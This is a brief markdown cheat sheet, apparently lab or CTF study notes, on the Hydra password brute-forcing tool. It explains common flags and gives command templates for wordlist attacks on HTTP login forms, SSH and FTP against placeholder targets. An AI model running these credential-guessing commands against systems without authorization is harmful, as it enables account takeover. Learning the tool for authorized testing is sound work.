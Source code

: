 # Hydra

## Resources
- <https://github.com/vanhauser-thc/thc-hydra>
- <https://github.com/gnebbia/hydra_notes>


## Commands

`-s` PORT to specify a non-default port for the service in question.

`-V` or -vV, for verbose, makes Hydra show the username and password combinations that are being tried. This verbosity is very convenient to see the progress, especially if you are still not confident of your command-line syntax.

`-t` n where n is the number of parallel connections to the target. -t 16 will create 16 threads used to connect to the target.

`-d`, for debugging, to get more detailed information about what’s going on. The debugging output can save you much frustration; for instance, if Hydra tries to connect to a closed port and timing out, -d will reveal this right away.





### http
```
sudo hydra <username> <wordlist> MACHINE_IP http-post-form "<path>:<login_credentials>:<invalid_response>"

hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

```


### ssh
```
hydra -l <username> -P <full path to pass> [IP] -t 4 ssh

hydra -l username -P wordlist.txt server service

hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV [IP] ssh

```

### ftp
```
hydra -l user -P passlist.txt ftp://[IP]

hydra -l mark -P /usr/share/wordlists/rockyou.txt [IP] ftp

hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV ftp://[IP]

```




